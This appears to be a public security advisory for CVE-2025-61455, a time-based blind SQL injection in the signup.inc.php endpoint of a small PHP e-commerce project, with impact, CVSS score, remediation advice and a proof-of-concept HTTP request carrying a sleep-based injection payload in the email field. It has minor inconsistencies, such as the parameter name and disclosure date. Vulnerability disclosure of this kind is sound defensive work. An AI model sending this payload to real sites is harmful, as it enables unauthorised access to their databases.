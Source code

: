 # 🛡️ CVE Disclosure: CVE-2025-61455 — SQL Injection in E-commerce Project

**Disclosure Date:** 14 October 2025  
**CVE ID:** CVE-2025-61455  
**Severity:** CRITICAL (CVSS 9.8)

---

## 🧩 Summary

A critical SQL Injection vulnerability exists in `E-commerce Project v1.0`, specifically within the `signup.inc.php` endpoint. The application directly incorporates unsanitized user inputs into SQL queries, allowing unauthenticated attackers to bypass authentication and execute arbitrary SQL commands.

This issue has been assigned the identifier **CVE-2025-61455**. At the time of public disclosure, **no official patch** was available.

---

## 📦 Affected Product

- **Vendor:** Independent (Bhabishya-123)
- **Project:** [E-commerce](https://github.com/Bhabishya-123/E-commerce)
- **Version:** v1.0
- **File:** `signup.inc.php`
- **Vulnerable Endpoint:**  
  `https://localhost/e-commerce-main/includes/signup.inc.php`

---

## 🔬 Vulnerability Details

The application uses unsanitized input directly in SQL queries without any input validation or prepared statements. The vulnerability exists in the `aid` parameter of the `signup.inc.php` file.

An attacker can inject malicious SQL code through the email parameter, enabling time-based blind SQL injection attacks.

**Example vulnerable code pattern:**
```php
$query = "SELECT * FROM table WHERE email='$email'";
```

This allows for injection payloads that can manipulate query logic and extract sensitive data.

---

## 📌 CWE Classification

| CWE ID | Title                                                                 |
|--------|-----------------------------------------------------------------------|
| [CWE-89](https://cwe.mitre.org/data/definitions/89.html) | Improper Neutralization of Special Elements used in an SQL Command |

---

## 📊 CVSS v3.1 Score

| Score | Severity | Vector String                              |
|-------|----------|---------------------------------------------|
| 9.8   | CRITICAL | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |

---

## 💥 Impact

A successful exploitation could result in:

- ✅ Full **authentication bypass**
- 🔓 **Unauthorized access** to privileged features
- 📊 **Data exfiltration** through time-based blind SQL injection
- 🛠️ Potential **data manipulation or deletion**
- ⚠️ Full **compromise of the backend database**
- 💻 Potential for **remote code execution**

---

## 🧪 Proof of Concept (PoC)

### 1. Clone the Repository

```bash
git clone https://github.com/Bhabishya-123/E-commerce.git
```

### 2. Host Locally

Use XAMPP/LAMP to deploy the project and navigate to:

```
http://localhost/e-commerce-main/includes/signup.inc.php
```

### 3. Payload Injection

Send the following malicious HTTP request:

```http
POST /e-commerce-main/includes/signup.inc.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded

name=DvYLInUG&email=fFrhKBwM@burpcollaborator.net'%2b(select*from(select(sleep(20)))a)%2b'&address=BWhKCxUw&number=666897&pwd=n7N%21j3r%21T7&rpwd=k0U%21t0f%21E9&submit=
```

**Explanation:**  
The email parameter contains a time-based SQL injection payload: `'+(select*from(select(sleep(20)))a)+'`

If the application delays for 20 seconds before responding, the SQL injection is successful.

---

## 🔐 Recommendations

- ✅ Replace dynamic SQL queries with **prepared statements** (`mysqli_prepare()` or **PDO**).
- 🔍 Perform **input validation and sanitization** for all user inputs.
- 🧱 Deploy a **Web Application Firewall (WAF)** to block known SQL injection patterns.
- 🛡️ Conduct **regular code audits** and **penetration testing** for early detection.
- 🔒 Implement **parameterized queries** for all database interactions.
- 📝 Use **allowlists** for input validation where possible.

---

## 📆 Timeline

| Event                    | Date           |
|--------------------------|----------------|
| Vulnerability Discovered | 16 September 2025  |
| Public Disclosure        | 13 October 2025   |
| Patch Available          | ❌ Not available as of disclosure |

---

## 🙋‍♂️ Credits

This vulnerability was discovered and responsibly disclosed by:

**Tansique Dasari**  
🔗 [GitHub](https://github.com/tansique-17)  
✉️ [tansique.d@gmail.com](mailto:tansique.17@gmail.com)

---

## 🔗 References

- [OWASP - SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [PortSwigger - SQL Injection](https://portswigger.net/web-security/sql-injection)
- [CVE-2025-61455 on CVE.org](https://cve.org/CVERecord?id=CVE-2025-61455)

---

> 💬 *This advisory is published independently due to lack of vendor response.*
